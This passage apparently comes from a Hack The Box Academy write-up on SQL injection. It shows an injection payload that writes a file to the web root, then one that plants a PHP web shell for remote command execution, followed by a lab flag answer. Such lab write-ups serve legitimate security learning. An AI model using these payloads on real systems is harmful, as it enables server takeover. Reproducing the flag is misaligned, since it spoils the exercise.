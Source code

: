 `SECURE_FILE_PRIV` is empty, meaning we can read and write to any location.

In order to test if this is true, we can write a file to the web root directory and try and access it via the browser.

Payload: `cn' union select 1,'File written successfully!',3,4,5 into outfile '/var/www/html/hax.txt'-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602130443.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602130443.png)

We got access to the file, confirming that we have write access to the system.

Let's upload a shell.

Payload: `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -`

Now we can execute commands via the URL. Looking around for a bit, we find the flag.

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602132121.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602132121.png)

**Answer:** `d2b5b27ae688b6a0f1d21b7d3a0798cd`

---

## [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#skills-assessment)

## Skills Assessment

### [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#question-11)

### Question:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512183044.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512183044.png)
